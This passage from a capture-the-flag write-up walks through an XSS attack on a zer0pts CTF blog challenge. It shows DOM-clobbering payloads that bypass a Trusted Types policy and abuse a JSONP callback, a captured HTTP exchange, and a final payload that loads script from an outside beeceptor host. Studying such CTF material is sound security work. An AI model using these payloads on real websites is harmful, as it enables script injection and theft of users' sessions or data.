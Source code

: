 ```html
dark.min.css"><form id=trustedTypes><output id=defaultPolicy>true</output></form><"
```

Now you can call the the api.php endpoint specifying a callback. A payload like the following can give a basic XSS.

```html
dark.min.css"><form id=trustedTypes><output id=defaultPolicy>true</output></form><a id=callback href=//%250Aalert();></a><"
```

Beacause the result request will be the following.

```
GET /api.php?callback=//%0Aalert(); HTTP/1.1
Host: web.ctf.zer0pts.com:8003
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:86.0) Gecko/20100101 Firefox/86.0
Accept: */*
Accept-Language: it-IT,it;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Connection: close
Referer: http://web.ctf.zer0pts.com:8003/?theme=dark.min.css%22%3E%3Cform%20id=trustedTypes%3E%3Coutput%20id=defaultPolicy%3Etrue%3C/output%3E%3C/form%3E%3Ca%20id=callback%20href=//%250Aalert();%3E%3C/a%3E%3C%22

HTTP/1.1 200 OK
Date: Sat, 06 Mar 2021 14:03:22 GMT
Server: Apache/2.4.38 (Debian)
X-Powered-By: PHP/7.4.13
Vary: Accept-Encoding
Content-Length: 577
Connection: close
Content-Type: application/javascript

//
alert();([{"id":1,"title":"Hello, world!","content":"Welcome to my blog platform!"},{"id":2,"title":"Lorem ipsum","content":"Lorem ipsum dolor sit amet, consectetur adipiscing elit, sed do eiusmod tempor incididunt ut labore et dolore magna aliqua. Ut enim ad minim veniam, quis nostrud exercitation ullamco laboris nisi ut aliquip ex ea commodo consequat. Duis aute irure dolor in reprehenderit in voluptate velit esse cillum dolore eu fugiat nulla pariatur. Excepteur sint occaecat cupidatat non proident, sunt in culpa qui officia deserunt mollit anim id est laborum."}])
```

You can use `jsonp` method itself to perform cross-origin request, getting the URL via *DOM clobbering* to bypass the maximum length.

```html
dark.min.css"><form id=trustedTypes><output id=defaultPolicy>true</output></form><a id=x href=https://<REDACTED>.free.beeceptor.com/></a><a id=callback href=//%250Ajsonp(x);></a><"
```

Analyzing the final webpage after the request, you can discover that with `jsonp` method the response of the cross-origin call is included in the page source and treated like an allowed JavaScript.
